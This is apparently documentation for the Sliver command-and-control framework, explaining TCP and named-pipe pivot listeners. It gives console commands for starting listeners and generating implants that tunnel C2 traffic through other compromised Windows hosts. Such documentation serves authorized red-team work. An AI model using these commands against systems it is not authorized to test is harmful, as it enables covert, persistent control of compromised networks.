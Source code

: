 ⚠️ __IMPORTANT:__ Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding `portfwd`, which is used for tunneling generic tcp connections into a target environment. 

⚠️ __IMPORTANT:__ Pivots can only be used in "session mode" (we may add beacon support later)

Pivots allow you to create "chains" of implant connections, for example if you're trying to deploy a pivot into a highly restricted subnet that cannot route traffic directly to the internet you can instead create an implant that egresses all traffic via another implant in a less restricted subnet. Sliver v1.5 and later pivots can be arbitrarily nested, for example a pivot A can connect thru pivot B to a third egress implant.

In Sliver you use an existing session to create a "pivot listener" and then generate new pivots that can connect back to that listener, just as you would with other C2 protocols/endpoints.

Pivots perform an [authenticated peer-to-peer cryptographic key exchange](https://github.com/BishopFox/sliver/wiki/Transport-Encryption#implant-to-implant-key-exchange-pivots) regardless of the underlying pivot protocol, therefore pivots can only communicate with other implants generated by the same server. This behavior cannot be disabled.

## TCP Pivots

TCP pivots are implemented in pure Go and are supported on all platforms. 

```
[server] sliver (PRIOR_MANTEL) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (PRIOR_MANTEL) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

We can now use `generate --tcp-pivot 192.168.1.1:9898` to generate an implant that will connect to the pivot listener.

## Named Pipe Pivots (SMB)

Named pipe pivots are only supported on Windows. Select a session to start a named pipe listener, and then use the `--bind` flag to specify a pipe name. Pipes are automatically started on the local machine so you only need to specify a named, remote clients are always allowed:

```
[*] Session a2615359 WARM_DRIVEWAY - 192.168.1.178:59290 (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:09:20 CST

[server] sliver > use a2615359-b0a4-4463-820b-f4dbe6fb2c30

[*] Active session WARM_DRIVEWAY (a2615359-b0a4-4463-820b-f4dbe6fb2c30)

[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1
```

Next we generate a named pipe implant using `generate --named-pipe 127.0.0.1/pipe/foobar` note here way may need to specify the IP address of the listener, the syntax is `<host>/pipe/<pipe name>`, which is the standard syntax for Windows named pipes.

```
[*] Session 13f9ee6b ROUND_ATELIER - 192.168.1.178:59290->WARM_DRIVEWAY-> (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:15:11 CST

[server] sliver (WARM_DRIVEWAY) > sessions

 ID         Name            Transport   Remote Address                         Hostname          Username                        Operating System   Last Check-In                   Health
========== =============== =========== ====================================== ================= =============================== ================== =============================== =========
 13f9ee6b   ROUND_ATELIER   pivot       192.168.1.178:59290->WARM_DRIVEWAY->   WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
 a2615359   WARM_DRIVEWAY   mtls        192.168.1.178:59290                    WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
```


